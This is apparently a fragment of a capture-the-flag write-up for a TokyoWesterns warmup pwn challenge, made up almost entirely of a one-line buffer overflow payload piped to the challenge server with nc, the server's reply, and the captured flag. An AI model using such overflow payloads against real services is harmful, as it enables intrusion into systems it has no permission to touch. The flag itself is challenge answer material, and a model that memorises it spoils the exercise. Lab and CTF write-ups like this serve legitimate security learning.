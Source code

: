 flag = 0x0804a080

echo -e "AAAAAAAAAAAAAAAAAAAA\x80\xa0\x04\x08" |nc pwn1.chal.ctf.westerns.tokyo 12345
Welcome my secret service. Do you know the password?
Input the password.
TWCTF{pwnable_warmup_I_did_it!}
